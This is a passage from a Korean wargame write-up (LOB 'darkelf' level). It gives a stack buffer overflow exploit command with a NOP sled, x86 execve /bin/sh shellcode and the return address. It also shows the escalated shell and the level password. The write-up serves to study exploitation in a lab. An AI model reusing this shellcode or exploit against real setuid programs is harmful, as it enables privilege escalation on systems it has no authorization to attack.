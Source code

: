 `argv[2]` 시작 주소인 `0xbffffc49`를 찾을 수 있었다.



# Exploit

> 다음은 위 내용을 토대로 exploit 코드를 작성해보자.

- argv[1]: buf[A\*40] + sfp[A\*4] + ret[argv[2]]
- argv[2]: nop[1000] + shellcode[24]

```
[wolfman@localhost wolfman]$ ./darkelf `python -c "print 'A'*44+'\xa7\xf8\xff\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
bash$ id
uid=505(wolfman) gid=505(wolfman) euid=506(darkelf) egid=506(darkelf) groups=505(wolfman)
bash$ my-pass
euid = 506
kernel crashed
bash$
```

### Clear! password is….

kernel crashed